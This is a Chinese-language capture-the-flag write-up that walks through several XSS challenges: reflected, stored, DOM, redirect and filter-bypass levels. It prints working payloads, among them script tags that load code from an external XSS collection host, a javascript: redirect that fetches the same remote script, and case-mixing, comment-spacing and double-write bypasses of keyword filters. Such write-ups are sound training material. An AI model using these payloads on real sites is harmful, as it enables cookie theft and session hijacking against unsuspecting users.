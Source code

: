 # 寒假WEEK3

## [XSS反射型] 

![image-20250208182207426](C:\Users\lenovo\Desktop\24-aye-hoyosei\image\image-20250208182207426.png)

打开网站，发现可以输入姓名和url，随便输入一个admin的名字，发现下面的内容变成了admin

![image-20250208182220050](C:\Users\lenovo\Desktop\24-aye-hoyosei\image\image-20250208182220050.png)

再次输入:

```
<script>alert(/xss/)</script>
```

发现如愿出现了弹窗，说明存在反射型xss漏洞

 ![image-20250208182256745](C:\Users\lenovo\Desktop\24-aye-hoyosei\image\image-20250208182256745.png)

TLXSS网站上挑一个XSS语句粘贴上去，submit以后，xss脚本注入成功，在url中粘贴当前的url，即可在TLXSS网站上查看到flag



## [XSS储存型] 

略，同反射型



## [XSS DOM反射]

打开网址，和之前的差不多，随便输入一个1看一看，发现内容发生了变化

![image-20250208182628941](C:\Users\lenovo\Desktop\24-aye-hoyosei\image\image-20250208182628941.png)

右键查看源码，发现一句

```
<script> 

$("#text")[0].innerHTML = '1'; 

</script>
```

不难看出我们输入的内容由这句话控制

输入：

```
';</script><sCRiPt sRC=//xs.pe/jhg></sCrIpT></script>
```

语句闭合，将xss脚本注入，再输入当前url，在TLXSS网站上刷新一下即可得到flag



## [XSS DOM跳转]

右键查看代码：

```
<script> 

var target = location.search.split("=") 

if (target[0].slice(1) == "jumpto") { 

  location.href = target[1]; 

} 

</script>
```

一段看起来很重要的js代码，但看不大懂，丢给ai审计一下代码，这段代码会查询是否包含jumpto参数，如果存在，则跳转至=后的目标url。

故bp传参：?jumpto=javascript:$.getScript("//xs.pe/jhg")

将当前url粘贴以后在TLXSS刷新一下，得到flag



## [XSS] 空格绕过

老样子，输入

```
<sCRiPt sRC=//xs.pe/jhg></sCrIpT>
```

却发现空格被过滤了。

替换成/**/

输入

```
<sCRiPt/**/sRC=//xs.pe/jhg></sCrIpT>
```

注入后粘贴当前url，TLXSS查看即可得到flag



## [XSS] 关键词绕过

直接注入

```
<sCRiPt sRC=//xs.pe/jhg></sCrIpT>
```

再复制url即可得到flag

后来经过尝试，发现这里ban的就是script，XLXSS平台给的就已经用大小写绕过了

再试一下双写绕过

```
<scrscriptipt sRC=//xs.pe/jhg></scrscriptipt>
```

仍然可以成功